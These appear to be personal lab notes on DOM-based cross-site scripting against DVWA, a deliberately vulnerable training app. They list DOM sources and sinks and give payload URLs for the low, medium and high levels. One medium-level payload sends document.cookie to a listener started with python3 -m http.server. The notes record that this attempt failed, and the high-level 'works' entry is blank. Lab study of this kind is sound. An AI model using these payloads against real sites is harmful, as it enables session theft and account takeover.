


This attack takes advantage of the Document Object Model(DOM). Manipulating the URL to insert script or change parameters for the attack. 

By setting up a python server, http traffic, specifically cookies can be pulled using the document.cookie parameter and be sent to the server using window.location. Input validation will stop this attack. 

https://portswigger.net/web-security/cross-site-scripting/dom-based

Source:
```dvwa/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>```
	In this example the source is the (document.cookie) java script property

Useful functions: 

\\\ `document.URL`
\\\ `document.documentURI`
\\\ `document.URLUnencoded`
\\\ `document.baseURI`
\\\ `location`
\\\ `document.cookie`
\\\ `document.referrer`
\\\ `window.name`
\\\ `history.pushState`
\\\ `history.replaceState`
\\\ `localStorage`
\\\ `sessionStorage`
\\\ `IndexedDB` (mozIndexedDB, webkitIndexedDB, msIndexedDB)
\\\ `Database`

Sink: 
	An example of an HTML sink is `document.body.innerHTML` because it potentially allows an attacker to inject malicious HTML and execute arbitrary JavaScript.
	eval()



DVWA has 3 settings to show different levels of security. Below are the bypasses for each level.

Low:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=%3Cimg%20alt=%3C/noframes%3E%3Cscript%3Ealert(1)%3C/script%3E`

Medium:

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror=alert(document.cookie)>`

Importantly the select parameter is used in the source code and will help the validated script break out(?)

This is used to set up a server that will receive the cookie.

`python3 -m http.server 1337 (setup server)`

`http://192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<select><audio src/onerror= window.location='http://192.168.10.123:1337=cookie/?=' + document.cookie>`

This didn't give us the cookie, will require more work to send cookie to server. 




High: 

Insert hash end of main url.

`192.168.10.123/dvwa/vulnerabilities/xss_d/#?default=<script>alert(document.cookie)</script>`

Maybe works>>>>

`192.168.10.123/dvwa/vulnerabilities/xss_d/?default=<template><select><option></template><template>`

This one works:

``

Resources: 

[https://owasp.org/www-community/Types...](https://www.youtube.com/redirect?event=video_description&redir_token=QUFFLUhqa2pmaklMTmVyS0hPUkNnR19wTUZoSUVrb2g3Z3xBQ3Jtc0ttb3dlcTdob29fYzJUZU9zWnN2UEtTTS03NWdCXy1mZEhCcDctQ0phbVdqZExwX084bkhLMk83MmdwTHQ5eGhqMkh0Y1ZDMUdPWlZHQ0tUUEZVQk9xRExtUklWQ25LclNWWFpfQWlINUNpOXRwSXdmNA&q=https%3A%2F%2Fowasp.org%2Fwww-community%2FTypes_of_Cross-Site_Scripting&v=X87Ubv-qDm4) 
